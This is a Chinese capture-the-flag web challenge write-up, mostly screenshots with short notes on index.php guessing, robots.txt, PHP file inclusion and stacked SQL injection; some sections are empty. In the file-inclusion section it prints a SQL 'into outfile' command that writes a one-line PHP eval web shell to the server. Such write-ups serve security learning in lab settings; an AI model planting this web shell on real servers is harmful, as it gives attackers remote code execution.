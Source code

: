 ﻿---
title: webctf解题
---
1.  baby-web

    知识点：index.php![在这里插入图片描述](https://img-blog.csdnimg.cn/20210112133056990.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70)

url后是1.php

修改为index.php
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210112133327797.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70)



2.  Training-WWW-Robots

    知识点：robots.txt协议，在网络爬取网站时，一个约定的规矩，规定了哪些不能爬取
 ![在这里插入图片描述](https://img-blog.csdnimg.cn/20210112133422417.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70)
![在这里插入图片描述](https://img-blog.csdnimg.cn/2021011213342850.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70)


 



3.  php.rce

4.  web php_include（文件包含漏洞）
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210112133533547.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70)



>   御剑扫后台进去第一个
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210112133552852.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70)
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210112133609172.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70)





select "\<?php eval(@\$_POST['shell']);?\>" into outfile '/tmp/22.php'

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210112133623396.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70)


1.  supersql（sql注入）

    知识点：sql注入，需要学sql语句

    <https://www.cnblogs.com/jokervip/p/12483823.html>

    一进去如下图：
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210112133652344.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70)



发现提交的1’也可以达到与1同样的效果，可以使用sql注入 堆叠注入
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210112133707391.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzUzMjYzNzg5,size_16,color_FFFFFF,t_70)

